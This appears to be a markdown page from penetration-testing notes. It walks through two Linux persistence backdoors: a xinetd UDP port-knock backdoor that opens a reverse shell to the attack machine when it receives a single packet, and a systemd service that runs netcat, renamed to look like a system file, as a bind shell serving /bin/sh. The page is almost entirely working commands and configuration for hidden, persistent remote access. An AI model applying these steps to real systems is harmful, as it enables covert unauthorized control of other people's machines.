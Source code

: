 # [Reverse Shells](../../Tools/Shells/Reverse/README.md)

# Xinetd UDP Portknock Backdoor
##### [Step 1 - On Target, create xinetd service](https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56)
[Local File](../../Tools/Shells/Persistence/xinetd/xinetd_server.sh)

It requires that netcat is on the target, in the /bin directory.  It copies netcat to file /bin/services.udp.
##### Step 2 - Start netcat listener on Attack machine
```bash
nc -lnvp <Port #>
```
##### Step 3 - Send a single UDP packet to target, "knocking," and causing the target to establish a reverse shell.
```bash
hping3 -2 -c 1 <Target IP Address> -p 65534
```

### Portknocking References
[Port knocking](https://en.wikipedia.org/wiki/Port_knocking)

# Systemd Netcat Bind Shell
##### Step 1 - On Target, copy netcat to a new file, in /lib/systemd directory.
```bash
cp /bin/nc /lib/systemd/systemd-service
```
##### Step 2 - On Target, create file /lib/systemd/system/systemd-service with following contents
[systemd-service](../../Tools/Shells/Persistence/Systemd/systemd-service)
```bash
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```
##### Step 3 - On Target, enable & start service
```bash
systemctl enable systemd.service
systemctl start systemd.service
```
##### Step 4 - Confirm that port is listening on the target
```bash
netstat -auntp | grep 56825
```
##### [Step 5 - From Attack machine, establish shell (Note Port # 56825)](../../Tools/Shells/Bind/README.md#Netcat-Bind-Shell)

